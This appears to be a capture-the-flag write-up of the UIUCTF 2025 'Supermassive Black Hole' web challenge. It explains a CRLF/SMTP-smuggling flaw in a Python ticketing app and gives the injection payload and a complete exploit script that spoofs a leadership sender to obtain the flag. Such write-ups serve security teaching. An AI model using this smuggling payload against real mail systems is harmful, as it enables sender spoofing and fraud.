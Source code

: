 ```yaml
---
title: UIUCTF 2025 - Supermassive Black Hole
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - UIUCTF
tags:
  - web
  - python
  - CRLF injection
authors:
  - Valenter
---
```

*Black Hole Ticketing Services prides itself on losing tickets at the speed of light. Can you get them to escalate?*

Welcome back to the second installment in this series of cyber-spacefaring challenges from uiuctf.

![Homepage](/uiuctf2025/supermassive-black-hole/screenshot-1.png)
Not as fancy as [*Ruler of the Universe*]({{< ref "posts/uiuctf25-ruler-of-the-universe/index.md" >}}), but far less dystopian than some real-world customer service centers.

The *About us* page contains some useful information, namely leadership@blackholeticketing.com, that will come in handy later.

![About-us](/uiuctf2025/supermassive-black-hole/screenshot-2.png)

## Dissecting the Event‑Horizon Mail Hub

There's an SMTP server running internally on port 1025, unfortunately, the port isn't exposed to us, so we can't interact with it directly:

`smtp_server.py`
```python
async def start_server():
    init_database()
    
    it_handler = ITBotHandler()
    controller = Controller(it_handler, hostname='localhost', port=1025)
    
    controller.start()
    
    return controller

async def main():
    controller = await start_server()
    
    try:
        while True:
            await asyncio.sleep(5)
    except KeyboardInterrupt:
        controller.stop()

if __name__ == "__main__":
    asyncio.run(main())
```

Luckily, though, we don't need to, the server does all the work for us, everything we type into the ticket submission form gets conveniently inserted into a pre-packaged `message` and relayed to the SMTP listener:

`web_server.py`
```python
        message_data = f"""\
From: support@blackholeticketing.com\r\n\
To: it@blackholeticketing.com\r\n\
Subject: {subject}\r\n\
X-Ticket-ID: {ticket_id}\r\n\
\r\n\
{message}\r\n\
.\r\n""".encode()

        ending_count = message_data.count(b'\r\n.\r\n')
        if ending_count != 1:
            raise ValueError("Bad Request")

        with smtplib.SMTP('localhost', 1025) as client:
            client.helo("example.com")
            client.sendmail('support@blackholeticketing.com', ['it@blackholeticketing.com'], message_data)
            # Wait a second for SMTP to process the ticket
            time.sleep(1)

        ticket_data = {
            'id': ticket_id,
            'timestamp': int(time.time() * 1000),
            'from': 'support@blackholeticketing.com',
            'subject': subject,
            'body': message,
            'status': 'submitted'
        }

        return render_template('ticket_submitted.html', ticket_data=ticket_data)
```

If we can somehow manage to change the sender address to leadership@blackholeticketing.com, and impersonate their star‑fleet commander‑in‑chief, the server will print out the flag for us.

`smtp_server.py`
```python
from_header = message.get('From', 'Unknown')
subject = message.get('Subject', 'No Subject')
body = str(message.get_payload())
ticket_id = message.get('X-Ticket-ID', f'{int(time.time())}_{self.processed_count}')
            
if internal.leadership_email in from_header.lower():
    response = "C-Suite ticket received! Will escalate immediately!" + f"\n{internal.flag}"
elif internal.support_email in from_header.lower():
    response = "Request for support received! Will resolve after lunch break."
else:
    response = "Please use our support portal to submit a ticket."
```

Now, the Intergalactic Postal Center must suffer from the same understaffing and underpaying issues we have here on Earth, because somebody decided it would be a good idea to override every inherent safety function in the Python SMTP library:

```python
try:
    smtplib._fix_eols = return_unchanged
    smtplib._quote_periods = return_unchanged
    smtplib.SMTP.data = new_data
```

- **`_fix_eols`** normally converts `\n` into `\r\n` to follow the SMTP standard,
- **`_quote_periods`** does dot-stuffing (adds an extra period at the start of every line that begins with a period),
- **`SMTP.data`** was patched with `new_data`.

It instead only runs one check:

```python
ending_count = message_data.count(b'\r\n.\r\n')
if ending_count != 1:
    raise ValueError("Bad Request")
```
it counts the number of terminators and allows there to be only one, this is to prevent us from closing our message and crafting a new one inside the same input.
But since `fix_eols` is deactivated, this is vulnerable to **CRLF injection**.

## Examining the vulnerability

We can use `\n.\r\n`, a.k.a *LF‑dot‑CRLF*, to close our crafted message, the SMTP server will recognize dot-only line as end-of-DATA, and everything that follows (`MAIL FROM:…`, `RCPT TO:…`, etc.) will be interpreted  as new SMTP commands.

#### The payload

```smtp
"\n.\r\n"
"MAIL FROM:<ceo@supermassive.inc>\r\n"
"RCPT TO:<it@blackholeticketing.com>\r\n"
"DATA\r\n"
"From: leadership@blackholeticketing.com\r\n"
"To: it@blackholeticketing.com\r\n"
"Subject: escalate\r\n"
"X-Ticket-ID: 1444\r\n"
"\r\n"
"pls fix asap\r\n"
".\n"
```
*Ticket-ID was added only for convenience and is not necessary for the final exploit*

Thus we add our own custom sender and receiver and pass the message on to the server.
#### Final script

```python
#!/usr/bin/env python3
import requests, time, textwrap

#BASE = "http://localhost:8080"
BASE = "https://inst-4e64969ec136b504-supermassive-black-hole.chal.uiuc.tf/"

payload = (
    "\n.\r\n"                                   
    "MAIL FROM:<ceo@supermassive.inc>\r\n"
    "RCPT TO:<it@blackholeticketing.com>\r\n"
    "DATA\r\n"
    "From: leadership@blackholeticketing.com\r\n"
    "To: it@blackholeticketing.com\r\n"
    "Subject: escalate\r\n"
    "X-Ticket-ID: 1444\r\n"                      
    "\r\n"
    "pls fix asap\r\n"
    ".\n"                                        
)     

#injection ticket
requests.post(f"{BASE}/submit_ticket",
              data={"subject": "Outage", "message": payload})

#wait for the bot to process
time.sleep(2)


resp = requests.get(f"{BASE}/check_response/1444").json()
print(resp["response"])
```

**`uiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}`**